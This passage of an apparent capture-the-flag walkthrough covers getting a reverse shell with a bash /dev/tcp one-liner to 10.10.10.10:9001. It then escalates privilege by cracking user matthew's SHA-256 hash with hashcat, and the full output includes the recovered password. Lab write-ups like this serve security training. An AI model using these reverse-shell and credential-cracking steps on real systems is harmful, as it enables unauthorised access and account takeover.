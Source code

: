 We got command execution, now let's get a reverse shell.

we can run the command `bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1'`

![revshell](5.png)

We got the shell!

## **Privilege Escalation**

### www-data -> matthew

Let's run linpeas and see what we can find.

![file&pass](6.png)

![pass](7.png)

We found two password but unfortunately none of them worked for the users on the box.

The other thing we found is a zip file for a sql database.

I unzip the file and cat it out but I got a lot of output. I decided to grep for user `matthew` and I found a hash.

![hash](8.png)

This one seems to be a `SHA256` so let's crack it using hashcat with the mode `1400`

```bash
$ hashcat -m 1400 matthew.hash /usr/share/wordlists/rockyou.txt


Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec:starcraft122490
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: 39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c...5770ec
Time.Started.....: Mon Mar 11 16:48:52 2024 (2 secs)
Time.Estimated...: Mon Mar 11 16:48:54 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1824.3 kH/s (0.22ms) @ Accel:512 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3553280/14344385 (24.77%)
Rejected.........: 0/3553280 (0.00%)
Restore.Point....: 3551232/14344385 (24.76%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: starfish789 -> star42016
Hardware.Mon.#1..: Util: 29%
```
